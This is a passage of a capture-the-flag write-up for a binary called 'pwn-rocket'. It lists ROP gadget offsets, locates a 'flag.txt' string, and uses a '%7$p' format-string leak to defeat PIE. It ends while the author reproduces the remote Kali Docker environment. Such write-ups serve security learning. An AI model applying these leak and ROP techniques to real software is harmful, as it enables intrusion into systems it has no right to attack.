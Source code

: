 I gathered these addresses which seemed useful (since the binary is PIE they are all relative!):

```python
GDGT_POP_RAX = 0x0000000000001210
GDGT_POP_RDI = 0x000000000000168b
GDGT_POP_RSI_POP_R15 = 0x0000000000001689
GDGT_POP_RDX = 0x00000000000014be
GDGT_POP_R10 = 0x00000000000014c7
GDGT_POP_R8 = 0x00000000000014d1
GDGT_SYSCALL = 0x00000000000014db

STR_FLAGTXT = 0x2d70 + 'MMMMMMMMMMMMMMMMMMMKONMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMflag.txt'.index('f')
VULN_FUNC = 0x0001531
```

The gadget addresses and `vuln()` function were found mostly using Ropper and Ghidra. "flag.txt" is part of a bigger string so its address is offset by the index of 'f' from the address found using the strings command:

```
[msaw328]$ strings -t x pwn-rocket | grep flag
2d70 MMMMMMMMMMMMMMMMMMMKONMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMflag.txt
```

Afterwards i started experimenting with the format string vulnerability. My goal was to find an address that looked like it could come from a binary. The best way to look that i know is using a format string of form "%n$p" where n is a number. This prints the n-th argument to `printf()` as a **p**ointer. I found a cool address at n = 7:

```
[msaw328]$ ./pwn-rocket 
Please authenticate >>>
%7$p
<<< Welcome: 0x565356d0b606
Welcome To Mission Control. Tell me to do something >>>
...
```
The address looked like it came from the binary - stack addresses usually start with "0x7f" in my experience.

---
#### Disclaimer:
There is one problem here that i did not realise until later. The n that i found the address at heavily depends on the environment/platform. In fact, i wrote the entire exploit using %7$p and it worked _flawlessly_ on my local machine. Once i switched the exploit to target the remote, however, it stopped working. Once i verified my python exploit code and tested a few more times locally i asked the author on discord what could be the case, and they hinted that the binary is running on `kalilinux/kali-rolling` Docker container.

I then downloaded the container locally and ran it in interactive mode:
```
[msaw328]$ docker pull kalilinux/kali-rolling
[msaw328]$ docker run --rm -it --name rocket_pwn kalilinux/kali-rolling /bin/bash
┌──(root㉿c3d7882dba75)-[/]
└─# 
```
After installing python3, pwntools and other necessities inside of the container, i copied my files in there (using another terminal):
```
[msaw328]$ docker cp ./solve.py rocket_pwn:/
[msaw328]$ docker cp ./pwn-rocket rocket_pwn:/
```

